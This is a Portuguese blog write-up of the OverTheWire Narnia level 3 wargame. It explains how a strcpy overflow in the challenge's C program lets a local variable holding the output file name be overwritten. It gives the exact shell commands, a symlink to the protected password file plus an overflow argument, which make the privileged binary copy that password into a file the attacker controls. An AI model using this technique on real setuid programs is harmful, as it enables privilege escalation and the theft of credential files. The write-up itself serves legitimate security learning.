 ```yaml
---
layout: default
title: Level 3 - Corrompendo variáveis locais na stack [OverTheWire CTF – Narnia] write-up
date: 2017-01-07 15:55
author: brennords
comments: true
categories: [CTFs]
---
```

<ul>
    <li><a href="https://brenn0.wordpress.com/2016/12/06/level-0-overthewire-ctf-narnia-write-up/">Level 0</a></li>
    <li><a href="https://brenn0.wordpress.com/2016/12/13/level-1-overthewire-ctf-narnia-write-up/">Level 1</a></li>
    <li><a href="https://brenn0.wordpress.com/2017/01/03/level-2-overthewire-ctf-narnia-write-up/">Level 2</a></li>
</ul>

Dando seguimento a série de write ups do <a href="http://overthewire.org/wargames/narnia/">Narnia</a>, chegou a hora de exploitar o level3.

```narnia3@melinda:/narnia$ ./narnia3
usage, ./narnia3 file, will send contents of file 2 /dev/null
```

Ele pega o primeiro argumento como o caminho para um arquivo e envia o conteúdo desse arquivo para <a href="https://pt.wikipedia.org/wiki//dev/null">/dev/null</a>? Não parece um programa muito útil.

Antes de qualquer análise, pensei que seria óbvio que, por ter permissões de narnia4, narnia3, de alguma forma, iria ler o conteúdo de <strong>/etc/narnia_pass/narnia4</strong> e nos passar ao invés de jogar em /dev/null e não ajudar ninguém.

Mas como o código fonte está bem perto de nós, vamos observa-lo e descobrir se há alguma forma de explorar esta habilidade de leitura de arquivos.

https://gist.github.com/anonymous/2978f3a6b1db2a77494d01c58de34384

Nada complexo. Mas vamos por partes.

```
int  ifd,  ofd;
char ofile[16] = /dev/null;
char ifile[32];
char buf[32];
```

As duas primeiras variáveis do tipo inteiro declaradas em main são <strong>ifd</strong> e <strong>ofd</strong>. Como o sugestivo nome indica, servem como <a href="https://en.wikipedia.org/wiki/File_descriptor">file descriptors</a> tanto para o arquivo de entrada, quanto para o de saída.

Na segunda linha vemos um vetor de caracteres chamado <strong>o</strong><del datetime="2017-01-07T14:35:02+00:00">utput</del><strong>file</strong> que guarda o valor "/dev/null". É bem óbvio a razão para a existência do mesmo.

Na terceira, <strong>i</strong><del datetime="2017-01-07T14:35:02+00:00">nput</del><strong>file</strong> é mais um vetor de caracteres, com espaço para 32 dos mesmos, que não é inicializado. É nessa variável que mais tarde o código guardará o nome do arquivo de entrada, ou seja, nosso argumento para o programa.

A sexta e última variável declarada na última linha do código acima é outro vetor de caracteres chamado <strong>buf</strong>. Ele vai ser usado para guardar o conteúdo do arquivo de entrada e depois escrever este conteúdo no arquivo de saída.

Logo depois das declarações de variáveis, há um simples if que verifica se algum argumento foi passado.

```
    if(argc != 2){
        printf(usage, %s file, will send contents of file 2 /dev/null\n,argv[0]);
        exit(-1);
    }
    ```

A parte seguinte do código usa a função amiga dos buffer overflow e inimiga dos dados guardados na stack, <strong>strcpy</strong>, que sem nenhum cuidado vai copiar argv[1] direto para ifile. E, depois de fazer essa operação perigosa, usa os file descriptors para checar se há permissão de escrita e leitura em ofile, e leitura em ifile.

```
     /* open files */
     strcpy(ifile, argv[1]);
     if((ofd = open(ofile,O_RDWR)) 0 ){
         printf(error opening %s\n, ofile);
         exit(-1);
     }
     if((ifd = open(ifile, O_RDONLY)) 0 ){
         printf(error opening %s\n, ifile);
         exit(-1);
     }```

Para finalizar, a última parte da função lê o ifile e copia o conteúdo para buf e logo depois escreve de buf para ofile. Fechando os arquivos logo depois.

```
    /* copy from file1 to file2 */
    read(ifd, buf, sizeof(buf)-1);
    write(ofd,buf, sizeof(buf)-1);
    printf(copied contents of %s to a safer place... (%s)\n,ifile,ofile);

    /* close 'em */
    close(ifd);
    close(ofd);

    exit(1);
    }```

Depois de compreender todo o código, pareceu que para ganhar a flag bastava estourar ifile passando um argumento do mal que executasse /bin/sh assim como foi feito no <a href="https://brenn0.wordpress.com/2017/01/03/level-2-overthewire-ctf-narnia-write-up/">último chall</a>. Sei bem que não faria sentido que dois challs seguidos tivessem a mesma resolução, <a href="https://brenn0.wordpress.com/category/ctfs/over-the-wire/leviathan/">mas já aconteceu coisa parecida antes</a>, então não custava tentar.

Mas essa ideia logo se mostrou impossível assim que mandei um checksec com o binário carregado no gdb aprimorado pelo peda.

```narnia3@melinda:/tmp/2017$ gdb -q /narnia/narnia3
Reading symbols from /narnia/narnia3...(no debugging symbols found)...done.
(gdb) source /usr/local/peda/peda.py
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : disabled```

<blockquote>O bit NX, que deriva da expressão em inglês No eXecute, é uma tecnologia usada em alguns processadores e sistemas operacionais que separa de modo rígido as áreas de memória que podem ser usadas para execução de código daquelas que só podem servir para armazenar dados. Ele é usada com propósitos de segurança.

Uma área da memória que esteja marcada com o atributo NX pode ser usada somente para guardar dados, então quaisquer instruções que estejam nela não serão executadas. A técnica serve para prevenir certos tipos de ataques feitos por malwares, quando o programa malicioso insere instruções na área de dados de outro programa, tentando que elas sejam executadas a partir de lá. Esse tipo de ataque é chamado de buffer overflow.

<a href="https://pt.wikipedia.org/wiki/Bit_NX">https://pt.wikipedia.org/wiki/Bit_NX</a></blockquote>

Isso significa que explorar o espaço da stack para guardar um shellcode e tentar executa-lo não irá funcionar.

E agora?

Em outros write ups já falei sobre a famigerada stack. Se você não faz ideia do que seja, recomendo que leia o write up do <a href="https://brenn0.wordpress.com/2016/12/06/level-0-overthewire-ctf-narnia-write-up/">level 0</a> do próprio narnia que acredito ter conteúdo suficiente para que você me acompanhe. Mas, como sempre faço, vou deixando links pelo meio do post e te dando a ideia de usar o <a href="https://duckduckgo.com/">Google</a> para ir tirando dúvidas.

No ínicio do processo, a função main vai ser executada e jogar suas variáveis na stack:

<img class="size-full wp-image-1410" src="https://brenn0.files.wordpress.com/2017/01/narnia3_1.png" alt="Um lindo desenho." width="147" height="147" />

Como sabemos, as variáveis não inicializadas apenas terão espaço reservado, por isso fiz referência a elas pelo nome e, no caso de ofile, usei seu valor "/dev/null".

E para não ficar apenas com essa abstração horrível em forma de desenho mais horrível ainda, te recomendo <a href="https://en.wikibooks.org/wiki/X86_Disassembly/Functions_and_Stack_Frames">este link</a> para que entendas bem melhor do que estou e continuarei falando.

Acredito que você se lembre de quando falei de strcpy. Na 22º linha do código do chall, seja lá qual for o tamanho do argumento que passarmos, ele será copiado para o espaço reservado para ifile. E se este argumento tiver mais de 32 caracteres, os dados irão invadir o espaço de ofile (e o que mais vinher depois, como ofd, ifd...).

Sabendo disso você até pode resolver o chall sozinho. Vá lá e só volte aqui para comparar soluções.

<hr />

<hr />

<hr />

<hr />

<hr />

<hr />

<hr />

<hr />

Tendo o poder de corromper o valor de ofile guardado no stack, a primeira ideia é a de modificar esse valor para um arquivo válido e sob nosso controle.

Tomei a liberdade fazer uma pequena alteração do código do chall só para ver isso acontecendo de forma mais prática, observe as inserções na linha 21 e 27:

https://gist.github.com/anonymous/b78a2c589773cd2c2db5034257e38441

Agora compilando e executando:

```suamae@yourbox:~/tmp$ gcc narnia3.c -o narnia3
suamae@yourbox:~/tmp$ ./narnia3 `python -c 'print B*32 + ownded'`
Antes: /dev/null
error opening BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBownded
Depois: ownded```

Exatamente o comportamento esperado.

Exploitation time!

Criei uma pasta em /tmp e dentro dela criei um link simbólico para /etc/narnia_pass/narnia4. O nome desse link era formado pelos 32 B's necessários para preencher todo o espaço de ifile + flag (que é o nome do arquivo que também criei para que o processo escrevesse a flag).

```narnia3@melinda:~$ cd /narnia
narnia3@melinda:/narnia$ mkdir /tmp/rddi
narnia3@melinda:/narnia$ ln -s /etc/narnia_pass/narnia4 /tmp/rddi/BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBflag
narnia3@melinda:/narnia$ cd /tmp/rddi
narnia3@melinda:/tmp/rddi$ touch flag
narnia3@melinda:/tmp/rddi$ /narnia/narnia3 `python -c 'print B*32 + flag'`
copied contents of BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBflag to a safer place... (flag)
narnia3@melinda:/tmp/rddi$ cat flag
c2ljaw==
▒▒▒▒▒4▒▒▒▒_▒▒}0,narnia3@melinda:/tmp/rddi$```
